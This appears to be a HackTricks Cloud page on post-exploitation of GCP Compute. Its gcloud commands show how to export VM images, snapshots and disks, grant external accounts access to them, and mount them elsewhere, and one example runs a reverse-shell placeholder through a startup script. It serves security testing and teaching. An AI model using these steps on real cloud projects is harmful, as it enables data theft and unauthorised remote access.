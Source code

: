 # GCP - Compute Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Compute

For more information about Compute and VPC (Networking) check:

{{#ref}}
../gcp-services/gcp-compute-instances-enum/
{{#endref}}

### Export & Inspect Images locally

This would allow an attacker to **access the data contained inside already existing images** or **create new images of running VMs** and access their data without having access to the running VM.

It's possible to export a VM image to a bucket and then download it and mount it locally with the command:

```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```

Fore performing this action the attacker might need privileges over the storage bucket and for sure **privileges over cloudbuild** as it's the **service** which is going to be asked to perform the export\
Moreover, for this to work the codebuild SA and the compute SA needs privileged permissions.\
The cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` needs:

- roles/iam.serviceAccountTokenCreator
- roles/compute.admin
- roles/iam.serviceAccountUser

And the SA `<project-id>-compute@developer.gserviceaccount.com` needs:

- oles/compute.storageAdmin
- roles/storage.objectAdmin

### Export & Inspect Snapshots & Disks locally

It's not possible to directly export snapshots and disks, but it's possible to **transform a snapshot in a disk, a disk in an image** and following the **previous section**, export that image to inspect it locally

```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```

### Inspect an Image creating a VM

With the goal of accessing the **data stored in an image** or inside a **running VM** from where an attacker **has created an image,** it possible to grant an external account access over the image:

```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
  --member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
  --role='roles/compute.imageUser'
```

and then create a new VM from it:

```bash
gcloud compute instances create [INSTANCE_NAME] \
  --project=[TARGET_PROJECT_ID] \
  --zone=[ZONE] \
  --image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```

If you could not give your external account access over image, you could launch a VM using that image in the victims project and **make the metadata execute a reverse shell** to access the image adding the param:

```bash
    --metadata startup-script='#! /bin/bash
        echo "hello"; <reverse shell>'
```

### Inspect a Snapshot/Disk attaching it to a VM

With the goal of accessing the **data stored in a disk or a snapshot, you could transform the snapshot into a disk, a disk into an image and follow th preivous steps.**

Or you could **grant an external account access** over the disk (if the starting point is a snapshot give access over the snapshot or create a disk from it):

```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
  --member='user:[USER_EMAIL]' \
  --role='roles/compute.storageAdmin'
```

**Attach the disk** to an instance:

```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
  --disk [DISK_NAME] \
  --zone [ZONE]
```

Mount the disk inside the VM:

1.  **SSH into the VM**:

    ```sh
    gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
    ```

2.  **Identify the Disk**: Once inside the VM, identify the new disk by listing the disk devices. Typically, you can find it as `/dev/sdb`, `/dev/sdc`, etc.
3.  **Format and Mount the Disk** (if it's a new or raw disk):

    - Create a mount point:

      ```sh
      sudo mkdir -p /mnt/disks/[MOUNT_DIR]
      ```

    - Mount the disk:

      ```sh
      sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
      ```

If you **cannot give access to a external project** to the snapshot or disk, you might need to p**erform these actions inside an instance in the same project as the snapshot/disk**.

{{#include ../../../banners/hacktricks-training.md}}





